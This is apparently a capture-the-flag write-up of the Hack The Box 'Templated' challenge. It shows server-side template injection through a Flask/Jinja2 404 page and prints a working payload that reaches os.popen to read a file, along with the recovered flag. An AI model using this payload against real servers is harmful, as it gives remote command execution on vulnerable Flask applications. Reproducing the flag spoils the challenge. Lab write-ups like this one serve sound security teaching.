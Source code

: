 # Templated

Another great web challenge.

the website could not make it more obvious 

google `flask/jinja2` exploit or vulerability

Seems like its `template injection` (SSTI)

you can read [this](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

and also [this](https://secure-cookie.io/attacks/ssti/#tldr---show-me-the-fun-part) one if you want!  

But where do i inject the code? Inspecting the source code gives nothing

fiddling a bit with the url path we notice the `404 page` renders whatever is added to path

that's it! we need to do it directly in the url path

I tried this:
`http://178.62.54.69:30320/{{7*7}}`

And got that
```
Error 404

The page '49' could not be found

```

you got it! 7*7 got executed! now its free real estate!

Our magic payload looks like this! modify at will and append it to url path

```
{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}
```
Profit!

```
Error 404

The page 'HTB{t3mpl4t3_0f_fl4g_h3r3!} ' could not be found
```
Yeah this challenge was actually easy...even for HTB standards


